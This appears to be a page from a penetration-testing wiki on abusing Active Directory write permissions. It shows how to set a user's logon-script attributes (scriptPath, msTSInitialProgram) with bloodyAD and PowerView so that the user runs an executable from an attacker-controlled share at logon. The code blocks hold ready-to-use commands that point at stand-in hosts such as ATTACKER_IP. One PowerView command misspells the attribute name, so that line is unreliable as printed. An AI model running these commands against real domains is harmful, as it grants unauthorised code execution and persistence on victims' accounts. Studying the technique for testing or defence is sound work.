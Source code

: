 # Logon script

> [!NOTE]
> It is worth noting that during lab testing, I couldn't find a way to practice this scenario. Since I didn't find practical enough resources on the Internet, feel free to reach out if you manage to exploit this.

This abuse can be carried out when controlling an object that has a `GenericAll` or `GenericWrite` over the target, or a `WriteProperty` premission over the target's logon script attribute (i.e. `scriptPath` or `msTSInitialProgram`).

The attacker can make the user execute a custom script at logon.

::: tabs


=== UNIX-like

This can be achieved with [bloodyAD](https://github.com/CravateRouge/bloodyAD).
```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user msTSInitialProgram -v '\\1.2.3.4\share\file.exe'
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user msTSWorkDirectory -v 'C:\'

# or
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user scriptPath -v '\\1.2.3.4\share\file.exe'
```


=== Windows

This can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash

Set-DomainObject testuser -Set @{'msTSTnitialProgram'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose

Set-DomainObject testuser -Set @{'scriptPath'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose
```


:::
